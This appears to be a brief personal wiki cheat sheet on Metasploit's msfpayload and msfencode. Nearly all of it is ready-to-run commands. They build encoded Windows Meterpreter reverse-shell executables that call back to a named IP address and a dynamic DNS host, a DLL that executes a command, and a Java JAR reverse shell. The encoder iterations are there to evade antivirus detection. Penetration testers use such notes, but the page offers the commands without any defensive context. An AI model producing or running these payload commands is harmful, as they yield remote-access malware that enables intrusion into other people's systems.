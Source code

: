 <!-- TITLE: Msfvenom -->
<!-- SUBTITLE: A quick summary of Msfvenom -->

# Header
Following is pretty old.  MSFvenom instead of msfpayload, but things I need to look up.
Encrypting
./msfpayload windows/meterpreter/reverse_tcp LHOST=71.229.140.156 LPORT=9999 R | ./msfencode -t exe > meterp.exe
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1)

NEW ONE:
./msfpayload windows/meterpreter/reverse_tcp_dns LHOST=olympus.dyns.cx LPORT=9998 R | ./msfencode -c 10 -t exe > meterp.exe

Make a DLL exploit with msfpayload
msfpayload windows/exec CMD=calc.exe D > test.dll

Java Jar file (note the [R]aw and not [J]avascript output.)
./msfpayload java/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT 9996 R > file.jar 

[Payload in a DLL](/payloaddll) - (msfvenom can do this now, but interesting for future anyway.)

